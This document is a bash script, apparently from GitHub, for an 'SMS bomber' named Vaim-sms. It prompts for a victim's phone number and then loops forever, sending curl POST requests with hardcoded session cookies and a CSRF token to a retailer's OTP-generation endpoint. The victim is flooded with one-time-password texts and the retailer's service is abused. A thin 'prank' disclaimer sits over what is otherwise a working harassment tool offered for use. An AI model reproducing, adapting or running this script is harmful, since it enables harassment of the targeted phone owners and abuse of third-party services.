 # Vaim-smsBom
#!/bin/bash #========================================================================================================================== #==========================================================================================================================  #Vaim-sms v1.0 #don't use my code with giving me credit  #if you use without giving me credit then you won't became a programmer so please respect #Youtube channel :https://www.youtube.com/channel/UCiZIJnhVc7jUnbnsIQONesA #Github (coded by vaimpier ritik ) >>> : https://github.com/HackerAceh/Vaim-sms #For business : husnulhacker@gmail.com #from :Aceh #vaimpier #========================================================================================================================== #==========================================================================================================================   banner() {  clear printf "\e[1;91m    ____   ____      .__\e[0m\n" printf "\e[1;91m    \   \ /   /____  |__| _____      \e[0m\e[1;93m       ______ _____   ______ \e[0m\n " printf "\e[1;91m     \   Y   /\__  \ |  |/     \   __\e[0m\e[1;93m____  /  ___//     \ /  ___/ \e[0m\n " printf "\e[1;91m      \     /  / __ \|  |  Y Y  \ /__\e[0m\e[1;93m___/  \___ \|  Y Y  \\___ \  \e[0m\n " printf "\e[1;91m       \___/  (____  /__|__|_|  /    \e[0m\e[1;93m     /____  >__|_|  /____  > \e[0m\n " printf "\e[1;91m                   \/         \/     \e[0m\e[1;93m          \/      \/     \/  \e[0m\n "  printf "\n" printf " \e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[1;31m           By VaimpierOfficial (Vaimpier Ritik)  \e[0m                            \e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[0m\n" printf " \e[1;77m[\e[1;93m::\e[0m\e[1;77m]           v2.0 coded by @vaimpier                                           \e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[0m\n" printf " \e[1;77m[\e[1;93m::\e[0m\e[1;77m] https://www.youtube.com/channel/UCiZIJnhVc7jUnbnsIQONesA                    \e[0m\e[1;77m[\e[1;93m::\e[0m\e[1;77m]\e[0m\n" printf "\n" printf "        \e[1;91m Disclaimer: this tool is designed for Prank\n" printf "         testing in an authorized simulated cyberattack\n" printf "         Attacking targets without prior mutual consent\n" printf "         is illegal!\n" printf "\n"   }    upload() {  clear printf "[+] HEY BRO PLEASE WAIT ......................... \n" printf "[+] NOTE : HEY BRO AFTER UPDATING IF DOES'NT WORK THEN PLEASE SEND ME MESSAGE ON MY G-MAIL : 'husnulhacker@gmail.com' \n KEEP WATCHING OUR YOUTUBE CHANNEL :https://youtube.com/channel/UCiZIJnhVc7jUnbnsIQONesA \n GITHUB : Https://github.com/HackerAceh/Vaim-sms \n" sleep 7 clear cd rm -rf Vaim-sms git clone Https://github.com/HackerAceh/Vaim-sms cd Vaim-sms chmod +x Vaim-sms clear printf "[+] SCRIPT UPDATED PLEASE WAIT ............. " sleep 2 bash Vaim-sms.sh   }  menu(){  clear banner  printf "\e[1;92m[\e[0m +\e[1;92m ]\e[0m \e[1;93mENTER YOUR NUMBER >>> \e[0m\n" read -p '---------------> ' num printf "\e[1;92m[\e[0m +\e[1;92m ]\e[0m \e[1;93mENTER LOG FILE NAME >>> \e[0m\n" read -p '---------------> ' log  printf "\n" printf ">>>\e[1;92m ATTACKING START ON +62$num \e[0m&lt;&lt;&lt;" sleep 5 printf "\n" printf "PRESS CLTR+C TO QUIT ............. \n" sleep 3 clear opr  }  opr(){  while true do curl -i -s -k -X $'POST' \     -H $'Host: www.fbbonline.in' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: https://www.fbbonline.in/customer/account/create' -H $'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H $'X-Requested-With: XMLHttpRequest' -H $'Content-Length: 436' -H $'DNT: 1' -H $'Connection: close' -H $'Cookie: _gcl_au=1.1.243953279.1596480303; __stp={\"visit\":\"returning\",\"uuid\":\"de2960e2-2dcc-4dfc-8afb-edce8db26f38\"}; _fv=cmpnpp; __stdf=0; __stgeo=\"1\"; __stbpnenable=1; historyPlpPage=0; PHPSESSID=u1c4phs0iqtfsl6b8nhh8n9r97; _st_time=1598178565; registration_url_cookie=https%3A%2F%2Fwww.fbbonline.in%2F; all_store_details=null' \     -b $'_gcl_au=1.1.243953279.1596480303; __stp={\"visit\":\"returning\",\"uuid\":\"de2960e2-2dcc-4dfc-8afb-edce8db26f38\"}; _fv=cmpnpp; __stdf=0; __stgeo=\"1\"; __stbpnenable=1; historyPlpPage=0; PHPSESSID=u1c4phs0iqtfsl6b8nhh8n9r97; _st_time=1598178565; registration_url_cookie=https%3A%2F%2Fwww.fbbonline.in%2F; all_store_details=null' \     --data-binary $'YII_CSRF_TOKEN=bbbef391f437ca8b30e4f2e45e998ccc9ea911e5&amp;RegistrationForm%5Bsignup_page%5D=1&amp;RegistrationForm%5Bcontact_number%5D='$num'&amp;RegistrationForm%5Bvalid_mobile%5D=1&amp;RegistrationForm%5Bemail%5D=sjbsj%40gmail.com&amp;RegistrationForm%5Bvalid_email%5D=1&amp;RegistrationForm%5Bfirst_name%5D=malicious&amp;RegistrationForm%5Blast_name%5D=virus&amp;RegistrationForm%5Bpassword%5D=httpsindianvirus&amp;RegistrationForm%5Btc_opt_in%5D=on&amp;validate_otp=' \     $'https://www.fbbonline.in/customer/account/GenerateOtp' > $log.txt done  }   menux() {  clear apt install curl clear banner printf "\e[1;92m[\e[0m 1\e[1;92m ]\e[0m>>>\e[1;93m ATTACK ON NUMBER \e[0m\n" printf "\e[1;92m[\e[0m 2 \e[1;92m]\e[0m>>>\e[1;93m UPDATE SCRIPT \e[0m\n" printf "\e[1;92m[\e[0m 3\e[1;92m ]\e[0m>>>\e[1;93m QUIT \e[0m\n" printf "\n" read -p '>>> SELECT ANYONE >>> ' options  if [ "$options" -eq "1" ];then         menu fi  if [ "$options" -eq "2" ];then         upload fi  if [ "$options" -eq "3" ];then         exit         exit         exit else         menux fi   }  menux
